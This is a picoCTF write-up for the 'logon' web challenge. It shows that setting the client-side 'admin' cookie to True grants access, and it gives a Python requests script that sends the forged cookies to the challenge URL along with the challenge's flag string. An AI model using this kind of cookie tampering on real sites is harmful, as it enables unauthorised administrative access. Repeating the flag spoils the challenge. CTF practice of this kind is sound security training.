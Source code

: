 # logon

> Solution: The hints say that *it doesn't seem to check anyone's password, except for Joe's*. Anyways, you can login as Joe with any password but it won't really give you the flag.

![Logged in as `Joe`](https://i.imgur.com/AeEA5DN.png)

However, having a look at the cookies, we see the `admin` cookie with the default value as `False`.

![The cookies](https://i.imgur.com/ud9CHlG.png)

Simply setting the value of `admin` cookie to `True`, we get the flag: `picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}`.

A little python script would do it for you.

```python
#!/usr/bin/env python3

import requests
from colorama import Fore
import re

url = "https://jupiter.challenges.picoctf.org/problem/13594/flag"

cookies = {
	"admin": "True",
	"username": "joe",
	"password": "password"
}

res = requests.get(url, cookies=cookies)

if "picoCTF{" in res.text:
	flag = re.findall("picoCTF{.*}", res.text)
	flag = flag[0]
	print(flag) # picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}
else:
	print(Fore.RED + "[-] The Flag could not be found")
```